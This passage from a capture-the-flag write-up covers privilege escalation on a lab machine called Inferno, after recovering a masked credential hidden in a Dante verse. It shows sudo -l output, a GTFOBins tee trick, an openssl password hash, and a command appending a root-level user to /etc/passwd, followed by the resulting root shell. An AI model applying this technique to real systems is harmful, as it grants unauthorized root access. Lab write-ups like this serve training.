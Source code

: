```
vagliami ’l lungo studio e ’l grande amore
che m’ha fatto cercar lo tuo volume.

Tu se’ lo mio maestro e ’l mio autore,
tu se’ solo colui da cu’ io tolsi
lo bello stilo che m’ha fatto onore.

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:***********
```
Creds! Awesome! Now onto privesc.

## PRIVESC

Lets check if we have sudo rights:
```bash
$ sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```
Nice, we can run `tee` as root. At this point I looked at [gtfobins](https://gtfobins.github.io/):
```bash
LFILE=file_to_write
echo DATA | sudo tee -a "$LFILE"
```
This allows for unrestriced file write, so what can we do? Well we can add a an entry to the `/etc/passwd` file, allowing us to make a new user with root privs:
```bash
openssl passwd -1 -salt pass pass
$1$pass$7n8dxi2NaFhr8AFSXoNso/
```
Password creation ^
```bash
$ echo "usr:\$1\$pass\$7n8dxi2NaFhr8AFSXoNso/:0:0:root:/root:/bin/sh"
```
Escaping the password to wirk in shell. And now to put it all together:
```bash
$ echo "usr:\$1\$pass\$7n8dxi2NaFhr8AFSXoNso/:0:0:root:/root:/bin/sh" | sudo tee -a /etc/passwd
```
Try it...
```bash
$ su usr
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
There we go. And go get your flag now.


